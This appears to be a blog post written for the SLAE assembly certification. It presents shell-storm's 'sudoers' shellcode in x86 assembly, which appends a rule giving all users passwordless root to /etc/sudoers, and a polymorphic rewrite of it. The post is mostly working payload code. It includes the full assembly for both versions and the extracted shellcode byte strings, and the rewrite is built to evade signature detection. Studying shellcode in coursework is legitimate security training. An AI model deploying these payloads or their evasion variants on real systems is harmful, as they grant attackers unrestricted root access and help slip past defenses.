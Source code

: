```yaml
---
layout: post
title: SLAE Exercise 6 - Polymorphic Shellcode Part 2 Sudoers
subtitle: Polymorphic Shellcode Part 2
tags: [SLAE]
---
```


Overview
======

The first chosen shellcode from shell-storm is the 'sudoers' shellcode. This can be found [here](http://shell-storm.org/shellcode/files/shellcode-62.php). This shellcode writes 'ALL ALL=(ALL) NOPASSWD: ALL\n' to the '/etc/sudoers' file.

The original code can be seen fully commented below:


```
global _start			

section .text
_start:


;open("/etc/sudoers", O_WRONLY | O_APPEND);
	xor eax, eax	; clearing eax register
	push eax	; pushing 0 to the stack
	push 0x7372656f ; pushing /etc/sudoers
	push 0x6475732f
	push 0x6374652f
	mov ebx, esp	; moving stack pointer to ebx
	mov cx, 0x401	; moving 1025 to ecx 
	mov al, 0x05	; moving 5 to eax for the open syscall
	int 0x80	; interupt to call syscall

	mov ebx, eax    ; move the returned fd into ebx

	;write(fd, ALL ALL=(ALL) NOPASSWD: ALL\n, len);
	xor eax, eax	; clear eax register again
	push eax	; push 0 to the stack
	push 0x0a4c4c41	; pushing ALL ALL=(ALL) NOPASSWD: ALL\n
	push 0x203a4457
	push 0x53534150
	push 0x4f4e2029
	push 0x4c4c4128
	push 0x3d4c4c41
	push 0x204c4c41
	mov ecx, esp	; moving stack pointer to ecx
	mov dl, 0x1c	; moving 28 to edx for the length
	mov al, 0x04	; moving 4 to eax for the write syscall
	int 0x80	; interupt to call syscall

	;close(file)
	mov al, 0x06	; move 6 to eax
	int 0x80	; interupt to call syscall

	;exit(0);
	xor ebx, ebx	; clear ebx register
	mov al, 0x01	; mov 1 to eax
	int 0x80	;interupt to call syscall
```

Using various techniques, this code was altered to create a polymorphic version of it. This code can be seen below:

```
global _start			

section .text
_start:


;open("/etc/sudoers", O_WRONLY | O_APPEND);
	xor edx, edx
	mul edx
	push edx
	
	mov ebx, 0x7372656f 
	push ebx
	mov ebx, 0x6475732f
	push ebx
	mov ebx, 0x6374652f
	push ebx
	mov ebx, esp
	mov cx, 0x401
	add al, 0x05
	int 0x80

	xchg ebx, eax  

	;write(fd, ALL ALL=(ALL) NOPASSWD: ALL\n, len);
	mul edx
	push edx
	push 0x0a4c4c41
	push 0x203a4457
	push 0x53534150
	push 0x4f4e2029
	push 0x4c4c4128
	push 0x3d4c4c41
	push 0x204c4c41
	mov ecx, esp
	add dl, 0x1c
	add al, 0x04
	int 0x80

	;close(file)
	mov al, 0x06
	int 0x80

	;exit(0);
	xor ebx, ebx
	mul ebx
	inc eax
	int 0x80
```

It can be clearly seen that the 'sudoers' section of the code is completely different from before, whilst maintaining a relatively small size. 

With this shellcode, it was a bit more difficult to rewrite it as was done with the first shellcode, so other techniques were used to make this code polymorphic. Due to this however, the codes size has increased. Different techniques were used to change this shellcode, including changing what registers were used, pushing data to the stack using registers and clearing registers differently. 


When compiled and the extracted, the shellcode appears as follows:

**Original**

```
"\x31\xc0\x50\x68\x6f\x65\x72\x73\x68\x2f\x73\x75\x64\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xb0\x05\xcd\x80\x89\xc3\x31\xc0\x50\x68\x41\x4c\x4c\x0a\x68\x57\x44\x3a\x20\x68\x50\x41\x53\x53\x68\x29\x20\x4e\x4f\x68\x28\x41\x4c\x4c\x68\x41\x4c\x4c\x3d\x68\x41\x4c\x4c\x20\x89\xe1\xb2\x1c\xb0\x04\xcd\x80\xb0\x06\xcd\x80\x31\xdb\xb0\x01\xcd\x80"
```

**Polymorphic**

```
"\x31\xd2\xf7\xe2\x52\xbb\x6f\x65\x72\x73\x53\xbb\x2f\x73\x75\x64\x53\xbb\x2f\x65\x74\x63\x53\x89\xe3\x66\xb9\x01\x04\x04\x05\xcd\x80\x93\xf7\xe2\x52\x68\x41\x4c\x4c\x0a\x68\x57\x44\x3a\x20\x68\x50\x41\x53\x53\x68\x29\x20\x4e\x4f\x68\x28\x41\x4c\x4c\x68\x41\x4c\x4c\x3d\x68\x41\x4c\x4c\x20\x89\xe1\x80\xc2\x1c\x04\x04\xcd\x80\xb0\x06\xcd\x80\x31\xdb\xf7\xe3\x40\xcd\x80"
```

As can be seen, the polymorphic shellcode greatly varies from the original and is less than 150% of the size of the original. 



This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: 1092
